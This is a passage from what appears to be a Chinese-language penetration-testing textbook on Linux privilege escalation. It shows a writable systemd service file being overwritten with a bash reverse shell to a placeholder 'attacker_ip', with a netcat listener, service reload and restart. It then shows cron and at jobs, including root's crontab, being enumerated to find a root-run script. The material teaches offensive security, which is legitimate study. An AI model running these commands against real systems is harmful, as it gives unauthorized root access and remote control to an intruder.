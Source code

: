 此命令的输出不会返回目标系统的任何结果。但是，让我们继续并学习如何修改可写的服务文件，如果在渗透测试中找到一个文件的话。如果发现一个可写服务文件，可以修改它来执行反向 shell。

这是修改可写服务文件的示例（将 `attacker_ip` 替换为您的 Kali 系统中的适当值）：

```
 $ echo "[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" > /etc/systemd/system/vulnerable.service
```

在您的 Kali 系统上执行以下命令，以准备接收反向 shell：

```
 $ nc -nlvp 4444
```

然后，重新加载 systemd 管理器配置，如下所示：

```
 $ systemctl daemon-reload
```

重启易受攻击的服务，如下所示：

```
 $ systemctl restart vulnerable.service
```

这样应该会收到来自目标的反向 shell。

现在，您已经学会了如何列举和利用易受攻击的服务，让我们继续深入探讨 **cron 作业**。

Cron 作业是计划任务，在类 Unix 操作系统中会在指定的时间间隔内自动运行。它们由 **cron 守护进程** 管理，后者是一个在后台执行命令的进程，根据预定的时间和日期执行命令。在网络安全中，cron 作业对于自动化常规任务、监控系统和维护安全协议非常有价值。如果配置错误，cron 作业可能会被利用。

以下 Bash 命令用于检查 Linux 系统上的计划任务，特别是识别与 cron 作业和计划任务相关的潜在权限提升机会：

```
 $ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

通过运行此命令，您可以查找系统上所有已配置的计划任务（`cron` 作业，`at` 作业和 `anacron` 作业），排除任何被注释掉的行。

该命令在目标系统上的输出如以下图所示：

![图 11.39 – 检查计划任务命令的输出](img/B22229_11_39.jpg)

图 11.39 – 检查计划任务命令的输出

从图中可以看到，`autoscript.sh` 正在以 `root` 身份运行。

`autoscript.sh` 条目也在本章早些时候被发现，如下所示的 `pspy64` 命令输出：

![图 11.40 – pspy64 命令输出显示 autoscript.sh 作为 root 运行](img/B22229_11_40.jpg)
